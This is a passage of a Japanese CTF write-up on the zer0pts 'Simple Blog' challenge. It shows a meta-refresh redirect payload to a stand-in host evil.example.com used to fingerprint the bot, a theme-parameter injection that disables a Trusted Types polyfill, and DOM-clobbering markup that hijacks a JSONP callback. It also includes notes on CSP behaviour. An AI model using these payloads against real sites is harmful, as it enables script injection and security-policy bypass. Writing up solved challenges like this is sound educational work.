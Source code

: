 問題文からbotがFirefoxであることが示唆されていますが、明示はされていないのでリダイレクトによってuser-agentをチェックします：
```javascript
encodeURIComponent('"> <meta http-equiv="refresh" content="0;URL=https://evil.example.com"> <"')
```
の値をreportすると
```
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
```
が返ってきた[^3]ので、[WhatIsMyBrowser](https://developers.whatismybrowser.com/)で調べると`Firefox 88 on Linux`でFirefoxであることが確認できました。

[^3]: 現状のCSPでは（たぶん）metaタグによるリダイレクトをブロックできないので、便利テクニックとして使ってます。[navigate-toディレクティブ](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)が導入されたらこの手は使えなくなるのだろうか。

ところでFirefoxと言えば、Dangling Markup Injectionの防御機構がない[^4]ので、その辺りでうまく攻撃できないか検討しました。

[^4]: Chromeでは`\n`と`<`の両方を含むURLへのアクセスがブロックされます（ref. https://www.chromestatus.com/feature/5735596811091968 ）。日本語の資料では[こことか](https://speakerdeck.com/shhnjk/burauzasekiyuriteiji-neng-ha-baipasusareruwei-niaru?slide=24)で言及されています[^5]。ただし今回の攻撃手法がChromeでうまく動作しないのは、これが原因ではなくTrusted Typesがサポートされていることが原因です。

[^5]: ところで[Shibuya.XSS](https://shibuyaxss.connpass.com/)の過去資料を漁ってるとおもしろい情報がたくさん得られるので、次回開催が楽しみです。前回開催時はCTFをやってなくて申し込まなかったのが悔やまれます。

```javascript
location = "http://web.ctf.zer0pts.com:8003/?theme=" + encodeURIComponent('> <script "')
```
を手元で実行すると、DOMの構造が崩れて下の画像のように`/js/trustedtypes.build.js`を読み込まなくなります。
![](./img/simpleblog-01.png)

Trusted Typesのpolyfillが無効になりました。嬉しい。

今度は、
```
Uncaught ReferenceError: trustedTypes is not defined
    init http://web.ctf.zer0pts.com:8003/?theme=> <script ":83
    <anonymous> http://web.ctf.zer0pts.com:8003/?theme=> <script ":92
```
と怒られます。これは、`/js/trustedtypes.build.js`を読み込まなかったことによって`trustedTypes`変数がundefinedになったことが原因です。グローバル変数なのでDOM Clobberingによって適当に定義すればOKです。
```javascript
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }
```
ともあるので、`trustedTypes.defaultPolicy`の値をtruthyにする必要があります。
```html
<form id=trustedTypes><input name=defaultPolicy></form>
```
このようなDOMがあれば大丈夫でしょう。さらに
```javascript
      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
```
で好きなcallbackの値を設置したい場合は
```html
<a id=callback href='x:console.log'></a>
```

[^1]: Simple Blogを最初に解き始めた理由は部分文字列に「Blog」が含まれていたからです。というのも、最近CSP bypass系の問題にはまっているのですがそれ系統の問題には「Blog」とか「Note」とかが問題文に含まれることが多いからです。
[^2]: 知見として得られたもので以下のものは今後のCTFでの考察に使えそうです：「複数のCSPが設定されていた場合は、既存のCSPよりさらに制限するようなポリシーしか追加できない。これはmetaタグによる設定でも同様」「`'strict-dynamic'`が指定されていたとしてもparser-insertedなscriptの挿入は認められない」「metaタグで指定されたポリシーは、その記述より前のコンテンツには適用されない」（ref. https://www.w3.org/TR/CSP3/ ）。
[^6]: 今までPythonでHTTPリクエストを投げるときには[requests](https://requests.readthedocs.io/en/master/)を使ってたのですが、最近は[httpx](https://www.python-httpx.org/)を使うように変更しました。APIはrequestsと似た感じで使いやすく、さらに標準で非同期通信にも対応していて便利です。あとこちらの方が後発で洗練されている印象を受けています（未確認です。気のせいかもしれません）。
[^7]: https://simple.wikipedia.org/wiki/Leet